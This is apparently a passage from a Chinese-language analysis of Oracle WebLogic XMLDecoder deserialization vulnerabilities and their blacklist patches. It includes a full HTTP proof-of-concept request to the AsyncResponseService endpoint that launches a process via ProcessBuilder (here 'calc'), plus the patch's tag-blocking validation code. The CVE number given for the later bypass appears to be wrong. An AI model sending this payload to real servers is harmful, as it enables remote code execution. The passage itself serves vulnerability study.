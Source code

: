 ``` xml
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```

为了证实两个包都属于有同一调用链触发，也可以尝试一下下面的POC，核心的内容完全相同。

``` xml
POST /_async/AsyncResponseService HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: remember-me=MXPUSANQRVaBJYtUucUgmQ==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 722

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
   <soapenv:Header> 
	   <wsa:Action>xx</wsa:Action>
	   <wsa:RelatesTo>xx</wsa:RelatesTo>
	   <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		    <java>
                <object class="java.lang.ProcessBuilder">
		            <array class="java.lang.String" length="1" >
			            <void index="0"> 
				            <string>calc</string>			
			            </void>		
		            </array>
		                <void method="start"/>
	            </object>
			</java>
		</work:WorkContext>   
	</soapenv:Header>   
	<soapenv:Body>     
	<asy:onAsyncDelivery/>   
	</soapenv:Body>
</soapenv:Envelope>
```

### 第一次黑名单补丁

补丁简单地排除掉了object标签，这就有了后来的CVE-2018-10271。

``` java
private void validate(InputStream is) {
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
```